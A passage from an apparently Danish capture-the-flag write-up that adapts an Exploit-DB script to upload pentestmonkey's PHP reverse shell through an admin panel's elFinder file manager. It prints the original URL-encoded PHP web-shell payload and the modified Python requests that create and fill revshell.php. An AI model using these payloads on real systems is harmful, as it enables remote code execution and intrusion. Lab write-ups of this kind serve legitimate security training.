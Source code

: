 Vil vi istedet uploade en fuld reverse shell.

Jeg valgte at bruge [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) da jeg har erfaring med denne. Men en hvilket som helst burde virke.

Efter at have downloaded pentestmonkeys php reverse shell script, modificerede jeg variablerne $ip og $port til at inkludere min haaukins IP og bruge port 13337

Derefter modificerede jeg exploit scriptet fra exploitdb som følgende:

På linje 75 hvor den sætter data variablen og inkluderer en payload modificerede jeg det til at åbne vores reverse shell og sende denne istedet:

Fra:
```python
data = f"cmd=put&target={file_id}&content=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%20%3F%3E"
```

Til:
```python
payload = ""

with open("revshell.php") as file:
    payload = file.read()

data = f"cmd=put&target={file_id}&content={payload}"
```

Derudover ændrede jeg navnet på php scriptet uploaded på linje 35:

Fra:
```python
    r = requests.get(f"{host}{directory}/admin/index.php?p=ajax-ops&op=elfinder&cmd=mkfile&name=shell.php&target=l1_Lw")
```

Til:
```python
    r = requests.get(f"{host}{directory}/admin/index.php?p=ajax-ops&op=elfinder&cmd=mkfile&name=revshell.php&target=l1_Lw")
```

Til sidst fjernede jeg det sidste ```while True:``` loop den laver, da jeg ikke har brug for dens "Interaktive shell" længere. Og tilføjede en print statement istedet

Derefter kørte jeg exploiten:

![new exploit](newexploit.png)
